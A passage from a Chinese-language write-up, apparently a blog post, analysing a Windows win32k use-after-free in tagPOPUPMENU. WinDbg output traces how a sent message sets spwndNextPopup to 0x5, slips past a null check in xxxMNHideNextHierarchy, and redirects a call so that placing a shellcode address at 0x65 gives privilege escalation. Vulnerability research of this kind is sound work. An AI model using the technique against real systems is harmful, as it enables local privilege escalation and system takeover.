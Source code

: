 ```
   +0x028 posSelectedItem  : 0xffffffff
   +0x02c posDropped       : 0
```  
  
  
同时，查看这个时候的内存情况，tagPOPMENU对象在两块被使用的加速表对象中间，此时释放它不会造成内存块的合并。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8H4yqSxOmHFDodVVkgicYkhSrMRrFial1SZicuR11QpbsunFkic7Y5T11wBMZJ4IQ70Z37jMtY6sqNJOQ/640?wx_fmt=jpeg "")  
  
  
调用xxxSendMessage发送0x1F0的消息后，可以看到spwndNextPopup被修改为0x5。  
```
1: kd> p
win32k!xxxMNMouseMove+0x14e:
9721953d 85c0            test    eax,eax
1: kd> dt tagPOPUPMENU fd5ee588
win32k!tagPOPUPMENU
   +0x000 flags            : 0x00000000
   +0x004 spwndNotify      : (null) 
   +0x008 spwndPopupMenu   : (null) 
   +0x00c spwndNextPopup   : 0x00000005 tagWND
   +0x010 spwndPrevPopup   : 0xcdcdcdcd tagWND
   +0x014 spmenu           : 0xcdcdcdcd tagMENU
   +0x018 spmenuAlternate  : 0xcdcdcdcd tagMENU
   +0x01c spwndActivePopup : 0xcdcdcdcd tagWND
   +0x020 ppopupmenuRoot   : 0xcdcdcdcd tagPOPUPMENU
   +0x024 ppmDelayedFree   : 0xcdcdcdcd tagPOPUPMENU
   +0x028 posSelectedItem  : 0xcdcdcdcd
   +0x02c posDropped       : 0xcdcd
```  
  
  
接着跟进xxxMNHideNextHierarchy函数，此时就会绕过该函数对spwndNextPopup不为0的验证，并将0x5作为第一个参数调用xxxSendMessage。  
```
1: win32k!xxxMNHideNextHierarchy+0x37:
967e8f05 6a00            push    0
1: kd> p
win32k!xxxMNHideNextHierarchy+0x39:
967e8f07 6a00            push    0
1: kd> p
win32k!xxxMNHideNextHierarchy+0x3b:
967e8f09 68e4010000      push    1E4h
1: kd> p
win32k!xxxMNHideNextHierarchy+0x40:
967e8f0e 50              push    eax
1: kd> p
win32k!xxxMNHideNextHierarchy+0x41:
967e8f0f e88906faff      call    win32k!xxxSendMessage (9678959d)
1: kd> r eax
eax=00000005
```  
  
  
这就会导致call dword ptr [esi + 0x60]变成call dword ptr [0x5 + 0x60]，因此只需要在0x65的地方放入ShellCode的地址就可以完成提权，最终的运行结果如下：  
  
